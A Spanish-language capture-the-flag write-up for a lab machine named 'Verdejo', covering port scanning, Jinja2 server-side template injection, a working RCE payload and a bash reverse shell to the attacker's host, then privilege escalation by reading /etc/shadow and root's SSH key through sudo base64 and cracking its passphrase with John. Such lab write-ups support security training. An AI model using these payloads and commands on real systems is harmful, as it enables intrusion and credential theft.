









Comenzamos enviando traza _ICMP_ para verificar que la máquina nos responde e identificar _TTL_ (TimeToLive):

```bash
ping -c 1 172.17.0.2
```



Podemos ver que tiene un TTL de 64, por lo tanto estamos ante una maquina _Linux_.

Procederemos con el reconocimiento inicial:
```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oG allPorts
```
Este escaneo nos encuentra los siguientes puertos abiertos:
_22_: SSH
_80_: HTTP (servicio web)
_8089_: HTTP (servicio web)

A continuación se realiza un escaneo mas exhaustivo, ejecutando scripts de reconocimiento y enumerando las versiones de los servicios detectados:
```bash
nmap -p22,80,8089 -sCV 172.17.0.2 -oN targeted
```

Obtenemos los siguientes resultados:



Comenzamos realizando un reconocimiento inicial de los **servicios web** con el objetivo de identificar las **tecnologías utilizadas** y posibles puntos de ataque.  
Para ello utilizamos el script **http-enum** de **nmap** junto con la herramienta **whatweb**:

```bash
nmap -p80,8089 --script http-enum 172.17.0.2 -oN webScan
```



En base a los escaneos efectuados, observamos que en el puerto **80** se encuentra corriendo la página por defecto de _Apache_, por lo que descartamos temporalmente este vector de ataque y continuamos el análisis sobre el servicio expuesto en el puerto **8089**.


Al acceder a la página, se puede observar el siguiente contenido:



Al enviar contenido a través del input, el sistema devuelve lo siguiente:


El parámetro `user` se refleja en la página, lo que sugiere la posibilidad de explotar una **SSTI** (Server-Side Template Injection).  
Para confirmar la vulnerabilidad, se inyecta `{{7*7}}`; si la respuesta es **49**, la vulnerabilidad queda confirmada.



Como se puede observar, el código se ejecuta correctamente y la expresión `{{7*7}}` es interpretada por el motor de plantillas, lo que indica el uso de **Jinja2 (Python)**. De esta forma, se confirma la vulnerabilidad y se procede a probar distintos _payloads_ con el objetivo de lograr la **Ejecución Remota de Comandos (RCE)**. Nuestra fuente sera:
https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---template-format

El payload funcional es el siguiente:

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

Una vez confirmada la ejecución de comandos, nos ponemos en escucha con **Netcat** por el puerto **4444** y enviamos una **Reverse Shell** utilizando el siguiente _payload_:

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.2/4444 0>&1"
```

La **URL** final queda de la siguiente manera:

`http://172.17.0.2:8089/?user={{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4444 0>%261"').read() }}`
Url encodeando las `&` porque pueden entrar en conflicto.

---
Una vez obtenida la _Reverse Shell_, realizaremos un tratamiento de la _TTY_ con el fin de obtener una shell totalmente interactiva:

```bash
script /dev/null -c bash
```

A continuación, se envía la shell a segundo plano utilizando la combinación de teclas **Ctrl + Z**.

```bash
stty raw -echo;fg
reset xterm
export TERM=xterm
stty rows 40 columns 155
```

Ya dentro del sistema como el usuario `verde`, el siguiente paso es la **escalada de privilegios**.  
Para ello, ejecutamos el comando `sudo -l` con el objetivo de enumerar los permisos y comandos que pueden ejecutarse como superusuario.



Observamos que podemos ejecutar el binario `base64` como **root**. Si bien esto no implica una escalada directa de privilegios, sí nos permite **leer archivos con permisos elevados** a los cuales normalmente no tendríamos acceso con el siguiente comando.

```
sudo base64 /ruta/al/archivo | base64 -d
```

Si bien es posible leer el archivo `/etc/shadow`, este vector no resulta útil. El campo de contraseña del usuario **root** contiene un `*`, lo que indica que la cuenta se encuentra **bloqueada para autenticación por contraseña**, descartando la obtención de un hash crackeable.



Debido a que la hipótesis anterior fue descartada, analizamos vectores alternativos de escalada de privilegios. En este caso, el enfoque consiste en leer el archivo `/root/.ssh/id_rsa` con el objetivo de obtener la **clave privada SSH** del usuario **root** de la siguiente manera:

```bash
sudo base64 /root/.ssh/id_rsa | base64 -d
```

Simplemente copiamos el contenido del archivo y lo transportamos a nuestro equipo _atacante_ con el nombre `id_rsa`.

Si intentamos acceder como `root` utilizando la clave privada, podemos ver que esta cifrada:



Por lo que ahora vamos usar la herramienta `ssh2john`, la cual convierte una clave privada _SSH_ cifrada en un formato que **John** puede atacar. Lo haremos de la siguiente manera:

```bash
ssh2john id_rsa > id_rsa.hash
```

Procedemos a crackear la _passphrase_ con **John** utilizando el diccionario **rockyou**.

```bash
john id_rsa.hash --wordlist=../../../wordlists/rockyou.txt
```

Tras realizar el ataque de fuerza bruta, se identifica que la _passphrase_ correcta de la clave privada SSH es **`honda1`**.  
Por lo tanto, accedemos por **SSH** como el usuario **root** utilizando la clave privada junto con la _passphrase_ crackeada.



Con esto logramos comprometer completamente la máquina **Verdejo**, obteniendo acceso como **root**. En esta máquina se exploto la vulnerabilidad web **SSTI**, se obtuvo ejecución remota de comandos y se abusaron configuraciones inseguras del sistema para escalar privilegios. Esta máquina refuerza la importancia de validar correctamente la entrada de usuario, proteger claves privadas y restringir de forma adecuada los permisos otorgados mediante **sudo**.
